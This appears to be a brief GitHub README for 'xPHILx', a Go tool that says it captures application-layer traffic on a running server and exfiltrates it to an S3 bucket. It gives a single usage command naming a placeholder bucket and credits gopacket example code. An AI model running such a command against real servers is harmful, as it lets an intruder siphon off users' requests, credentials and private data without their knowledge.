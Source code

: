 # xPHILx

![xPHILx](xphilx.jpg)

## Introduction

Exfiltrate layer 7 payloads to S3 from a running server

## Contents

- [Usage](#usage)
- [Credits](#credits)

## Usage

```bash
sudo go run main.go -i lo0 -b s3://fake-bucket/
```

## Credits

- Photo from @cctildef on IG
- A lot of copy pasta from: https://github.com/google/gopacket/blob/master/examples/httpassembly/main.go
